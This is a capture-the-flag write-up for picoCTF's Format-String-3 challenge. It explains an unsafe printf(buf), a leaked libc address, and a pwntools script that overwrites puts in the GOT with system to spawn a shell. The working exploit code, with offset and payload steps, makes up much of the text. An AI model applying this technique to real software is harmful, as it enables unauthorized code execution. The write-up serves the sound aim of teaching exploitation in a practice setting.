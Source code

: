 # Format-String-3-Medium Writeup

**Flag:** `picoCTF{...}`

---

## Summary

This is a format string exploitation challenge. The binary prints user input directly with `printf(buf);` which allows us to control format specifiers. Combined with the leak of a libc function (`setvbuf`), we can calculate libc’s base address and overwrite a GOT entry to hijack execution.

Our goal: overwrite the GOT entry of `puts()` with the address of `system()`. Since the program later calls `puts("/bin/sh")`, this effectively becomes `system("/bin/sh")`, giving us shell access.

---

## Vulnerability

The core problem is this line in `main()`:

```c
fgets(buf, 1024, stdin);	
printf(buf);   // unsafe, directly controlled format string
```

This lets us:

1. Leak stack values using `%p`.
2. Write arbitrary values to arbitrary addresses using `%n` (or with pwntools’ `fmtstr_payload`).

Additionally, the `hello()` function leaks the address of `setvbuf` from libc:

```c
printf("... Here's the address of setvbuf in libc: %p\n", &setvbuf);
```

That gives us an info leak → libc base → system address.

---

## Exploitation Strategy

1. **Leak libc base**

   * The program gives us `setvbuf`’s address.
   * Subtract `libc.symbols["setvbuf"]` to get `libc.address`.

2. **Locate target functions**

   * GOT entry of `puts()` → `exe.got["puts"]`.
   * Address of `system()` → `libc.symbols["system"]`.

3. **Format string offset**

   * Send `%p` repeatedly until we find where our input lands on the stack.
   * In this case, the correct offset was around **38**.

4. **Overwrite puts\@GOT**

   * Use `fmtstr_payload` to replace `puts` with `system`.
   * Next time the binary calls `puts(normal_string)`, it actually executes `system("/bin/sh")`.

---

## Exploit

```python
from pwn import *

exe = ELF("./format-string-3")
libc = ELF("./libc.so.6")

def exploit(conn):
    response = conn.recv().decode("utf-8")
    response = response.split("0x")
    setvbuf_addr = int(response[1].strip(), 16)
    libc.address = setvbuf_addr - libc.symbols["setvbuf"]

    info("libc == %#x", libc.address)
    puts = exe.got["puts"]
    info("puts == %#x", puts)
    system = libc.symbols["system"]
    info("system == %#x", system)

    payload = fmtstr_payload(offset=38, writes={puts: system})
    conn.sendline(payload)
    conn.interactive()
```

---

## Final Notes

* Vulnerability = format string in `printf(buf)`.
* Leak of `setvbuf` → libc base → resolve `system()`.
* Overwrite `puts@GOT` with `system`. I ran into issues with getting SIGSEVs because I was overwriting the libc puts not the GOT puts. 
* When program calls `puts("/bin/sh")`, it actually calls `system("/bin/sh")`.